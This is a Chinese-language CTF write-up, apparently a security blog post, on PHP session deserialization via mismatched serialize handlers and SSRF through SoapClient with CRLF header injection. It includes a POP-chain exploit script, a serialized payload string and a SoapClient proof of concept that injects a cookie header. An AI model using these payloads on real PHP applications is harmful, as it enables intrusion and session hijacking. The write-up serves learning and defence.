

# Session反序列化利用和SoapClient+crlf组合拳进行SSRF


                                阅读量   
                                **417968**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    
                                                                                            


[](./img/202025/t01b01aba52c68611f3.png)


## 什么是session?

[](https://p0.ssl.qhimg.com/t011a586d8676ea6db8.png)

在计算机中，尤其是在网络应用中，称为“会话控制”。`Session`对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的Web页之间跳转时，存储在`Session`对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web页时，如果该用户还没有会话，则Web服务器将自动创建一个 `Session`对象。当会话过期或被放弃后，服务器将终止该会话。


## session起的作用是？

当用户访问到一个服务器，如果服务器启用Session，服务器就要为该用户创建一个SESSION，在创建这个SESSION的时候，服务器首先检查这个用户发来的请求里是否包含了一个`SESSION ID`，如果包含了一个SESSION ID则说明之前该用户已经登陆过并为此用户创建过SESSION，那服务器就按照这个SESSION ID把这个SESSION在服务器的内存中查找出来（如果查找不到，就有可能为他新创建一个），如果客户端请求里不包含有SESSION ID，则为该客户端创建一个SESSION并生成一个与此SESSION相关的SESSION ID。这个`SESSION ID是唯一的、不重复的、不容易找到规律的字符串`，这个SESSION ID将被在本次响应中返回到客户端保存，而保存这个SESSION ID的正是COOKIE，这样在交互过程中浏览器可以自动的按照规则把这个标识发送给服务器。

了解了这些之后，我们进一步看导致`session反序列化攻击`的原因：

> PHP内置了多种处理器用于存储$_SESSION数据时会对数据进行序列化和反序列化，常用的有以下三种，对应三种不同的处理格式：<br>[](https://p0.ssl.qhimg.com/t01788cc6e4c2565e86.png)

配置选项`session.serialize_handler`,通过该选项可以设置序列化及反序列化时使用的处理器。

如果PHP在反序列化存储的$_SEESION数据时的使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的伪造，甚至可以伪造任意数据。


## 源码分析

我们在这里看个例子：

```
&lt;?php
ini_set('session.serialize_handler', 'php_serialize');
//使用php_serialize引擎序列化
session_start();
$_SESSION['crispr']='|O:6:"crispr":1:{s:1:"s";s:10:"helloworld";}';
?&gt;
```

```
&lt;?php
session_start();
#O:6:"crispr":1:{s:1:"s";s:10:"helloworld";}
session_start();
class crispr {
  public $s = 'helloworld';
  function __wakeup() {
    echo $this-&gt;s;
  }
}
var_dump($_SESSION);
?&gt;
```

这里使用php_serialize引擎进行序列化存储，而默认以php引擎读取session文件，当我们的`session`中多添加`|`，php引擎会以`|`作为作为key和value的分隔符，所以会将后面看成value，进行反序列化，最后得到这个`crispr`类：

[](https://p2.ssl.qhimg.com/t01e6ae5c0f90c6a470.png)


## CTF实战

下面我们分析一道2017 GCTF的一个题目：<br>
query.php

```
session_start();
header('Look me: edit by vim ~0~')
//......
class TOPA{
    public $token;
    public $ticket;
    public $username;
    public $password;
    function login(){
        //if($this-&gt;username == $USERNAME &amp;&amp; $this-&gt;password == $PASSWORD){ 
        $this-&gt;username =='aaaaaaaaaaaaaaaaa' &amp;&amp; $this-&gt;password == 'bbbbbbbbbbbbbbbbbb'){
            return 'key is:{'.$this-&gt;token.'}';
        }
    }
}
class TOPB{
    public $obj;
    public $attr;
    function __construct(){
        $this-&gt;attr = null;
        $this-&gt;obj = null;
    }
    function __toString(){
        $this-&gt;obj = unserialize($this-&gt;attr);
        $this-&gt;obj-&gt;token = $FLAG;
        if($this-&gt;obj-&gt;token === $this-&gt;obj-&gt;ticket){
           return (string)$this-&gt;obj;
        }
    }
}
class TOPC{
    public $obj;
    public $attr;
    function __wakeup(){
        $this-&gt;attr = null;
        $this-&gt;obj = null;
    }
    function __destruct(){
        echo $this-&gt;attr;
    }
}
```

index.php

```
&lt;?php
//error_reporting(E_ERROR &amp; ~E_NOTICE);
ini_set('session.serialize_handler', 'php_serialize');
header("content-type;text/html;charset=utf-8");
session_start();
if(isset($_GET['src'])){
    $_SESSION['src'] = $_GET['src'];
    highlight_file(__FILE__);
    print_r($_SESSION['src']);
}
?&gt;
&lt;!DOCTYPE HTML&gt;
&lt;html&gt;
 &lt;head&gt;
    &lt;meta http-equiv="Content-Type" content="text/html; charset=utf-8" /&gt;
  &lt;title&gt;代码审计2&lt;/title&gt;
 &lt;/head&gt;
 &lt;body&gt;
 在php中，经常会使用序列化操作来存取数据，但是在序列化的过程中如果处理不当会带来一些安全隐患。
&lt;form action="./query.php" method="POST"&gt;        
&lt;input type="text" name="ticket" /&gt;               
&lt;input type="submit" /&gt;
&lt;/form&gt;
&lt;a href="./?src=1"&gt;查看源码&lt;/a&gt;
&lt;/body&gt;
&lt;/html&gt;
```

可以很容易的察觉到在`index.php`和`query.php`中设置的引擎并没有一致，这就造成了前文所说的数据无法正确反序列化，通过特殊的伪造，甚至可以伪造任意数据。

> 本地可以把TOPA类的`login方法`替换成__toString()方法

##### <a class="reference-link" name="%E5%88%86%E6%9E%90POP%E9%93%BE%EF%BC%9A"></a>分析POP链：

先调用TOPC类，其中`__wakeup()`我们可以进行绕过，触发`__desturct()`后，会执行`echo $this-&gt;attr`,我们将**attr**设为TOPB类，则会调用TOPB类的`__toString()`,而此方法中明显调用了TOPA类的属性，我们只需将**attr**设置为对象TOPA的序列化值,接着就是一个判段:<br>`$this-&gt;obj-&gt;token === $this-&gt;obj-&gt;ticket`,这里我们只需要利用PHP的深浅拷贝，使用引用符`&amp;`即:`$this-&gt;ticket = &amp;$this-&gt;token;`这样整个POP链就出来了。

exp.php

```
&lt;?php
class TOPA{
    public $token;
    public $ticket;
    public $username;
    public $password;
    public function __construct()
    {
      $this-&gt;username = 0;
      //PHP弱类型比较   var_cump(0 =='aaaaaaaaa') bool(true)
      $this-&gt;password = 0;
      $this-&gt;token = &amp;$this-&gt;ticket;
      //引用同一片空间，两个属性值永远相等
    }
        }
class TOPB{
    public $obj;
    public $attr;
    function __construct(){
        $this-&gt;attr = serialize(new TOPA());
    }
  }


class TOPC{
    public $obj;
    public $attr;
    public function __construct()
    {
      $this-&gt;attr = new TOPB();
    }
}

$exp = new TOPC();
echo urlencode(serialize($exp));
//注意要绕过__wakeup()，还需要将TOPC的属性个数增加
```

**payload**

`|O:4:"TOPC":3:{s:3:"obj";N;s:4:"attr";O:4:"TOPB":2:{s:3:"obj";N;s:4:"attr";s:84:"O:4:"TOPA":4:{s:5:"token";N;s:6:"ticket";R:2;s:8:"username";i:0;s:8:"password";i:0;}";}}`<br>
而我们要利用session反序列化传入，应该在payload前加`|`，从而是后面成为值，进行反序列化。


## SoapClient+crlf进行SSRF

先看看什么是SoapClient

> <p>SOAP（简单对象访问协议）是连接或Web服务或客户端和Web服务之间的接口。<br>
其采用HTTP作为底层通讯协议，XML作为数据传送的格式<br>
SOAP消息基本上是从发送端到接收端的单向传输，但它们常常结合起来执行类似于请求 / 应答的模式。</p>

而`SoapClient`和反序列化有什么联系呢？其实我们这里用的是`SoapClient`的`__call()`方法：

查看PHP原生类的反序列化利用

```
&lt;?php
$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "n";
        }
    }
}
```

开启Soap扩展后可以看到其存在`__call()`方法，而我们利用的就是此方法来进行SSRF。具体利用的方法已经有提到，我们这里具体通过一个例子来说明利用思路。

#### <a class="reference-link" name="%5BLCTF%5Dbestphp%E2%80%99s%20revenge"></a>[LCTF]bestphp’s revenge

**index.php**

```
&lt;?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?&gt;
```

**flag.php**

```
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){
       $_SESSION['flag'] = $flag;
   }
only localhost can get flag!
```

这里通过改HTTP头是无效的,如果我们要利用`session反序列化`，必须要设置不同的引擎，而源码并没有设置不同引擎，我们需要充分利用`call_user_func`

> <p>call_user_func — 把第一个参数作为回调函数调用<br>
call_user_func ( callable $callback [, mixed $parameter [, mixed $… ]] ) : mixed<br>
第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。</p>

因为我们可以控制`f`的值，设置引擎的方法可以用`ini_set()`，也可以使用`session_start(['serialize_handler'=&gt;'php_serialize'])`来设置引擎。这样`session`反序列化就变成我们可控的了，那么要本地登录，我们可以构造SoapClient类进行SSRF：<br>
这里我们需要将发送的请求存储到另一个`session`中，也就是要在请求中构造一个`cookie`，所以我们需要结合CSRF，其大致的原理是：

HTTP规范中，行以CRLF结束。所以当检测到%0d%0a后，就认为该首部字段这行结束了，后面出现的就属于就会被认为是下一行，因此这样才能利用新的`cookie`将请求结果存储到该`cookie`对应的session上，最后只需要修改cookie即可。

**利用SoapClient请求的poc**

```
&lt;?php
$target = "http://127.0.0.1/flag.php";
$Soap = new SoapClient(null,array('location' =&gt; $target,
    'user_agent' =&gt; "crisprrnCookie: PHPSESSID=8cgjtpogl13sn1tnju4qni4d71rn",
    'uri' =&gt; "hello"));
$payload = urlencode(serialize($Soap));
echo $payload;
```

我们的思路和操作顺序也就出来了：<br>`第一步`<br>
先通过注入得到的`session`，并且设置了不同的引擎，以便于反序列化时能够实例化`SoapClient`，从而发送请求进行SSRF。

[](https://p3.ssl.qhimg.com/t01b56f8616beac5830.png)

`第二步`<br>
通过覆盖变量，使$b=`call_user_func`，并且将`$SESSION['name']=SoapClient`,这样index.php最后一条语句

```
call_user_func($b,$a);
```

变成

```
call_user_func(array('SoapClient','welcome_to_the_lctf2018'));
```

而`call_user_func`会将数组的成员当做类名和方法,而并没有定义此方法，所以会调用自带的`__call()`函数，成功发送请求进行SSRF。

[](https://p2.ssl.qhimg.com/t01667cd721457ca356.png)

成功调用后这时就将请求储存到了poc中的cookie值对应的session中，如图：

[](https://p0.ssl.qhimg.com/t01e18b13207242f5b4.png)

最后我们只需要通过修改poc中对应的cookie，则`flag.php`会被存储到对应的`session`下，成功SSRF！

[](https://p0.ssl.qhimg.com/t01829b764365be6c4b.png)
